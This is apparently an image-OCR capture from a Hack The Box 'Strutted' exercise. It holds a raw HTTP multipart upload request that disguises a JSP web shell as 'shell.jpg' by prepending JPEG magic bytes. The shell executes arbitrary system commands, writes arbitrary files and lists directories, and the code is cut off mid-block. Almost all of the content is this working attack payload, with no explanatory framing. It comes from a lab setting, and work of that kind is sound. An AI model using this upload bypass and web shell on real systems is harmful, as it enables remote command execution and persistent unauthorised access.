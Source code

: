 ```
POST /upload.action HTTP/1.1
Host: strutted.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------30214330314442822631212062236
Content-Length: 226
Origin: http://strutted.htb
Connection: keep-alive
Referer: http://strutted.htb/upload.action
Cookie: JSESSIONID=AA34B64913C652F82964068D83971203
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------30214330314442822631212062236
Content-Disposition: form-data; name="Upload"; filename="shell.jpg"
Content-Type: image/jpeg

ÿØÿà
<%@ page import="java.io.*, java.util.*, java.net.*" %>
<%
    String action = request.getParameter("action");
    String output = "";

    try {
        if ("cmd".equals(action)) {
            // Execute system commands
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                Process p = Runtime.getRuntime().exec(cmd);
                BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
                String line;
                while ((line = reader.readLine()) != null) {
                    output += line + "\n";
                }
                reader.close();
            }
        } else if ("upload".equals(action)) {
            // File upload
            String filePath = request.getParameter("path");
            String fileContent = request.getParameter("content");
            if (filePath != null && fileContent != null) {
                File file = new File(filePath);
                try (BufferedWriter writer = new BufferedWriter(new FileWriter(file))) {
                    writer.write(fileContent);
                }
                output = "File uploaded to: " + filePath;
            } else {
                output = "Invalid file upload parameters.";
            }
        } else if ("list".equals(action)) {
            // List directory contents
            String dirPath = request.getParameter("path");
            if (dirPath != null) {
                File dir = new File(dirPath);
                if (dir.isDirectory()) {
                    for (File file : Objects.requireNonNull(dir.listFiles())) {
                        output += file.getName() + (file.isDirectory() ? "/" : "") + "\n";
                    }
                } else {
```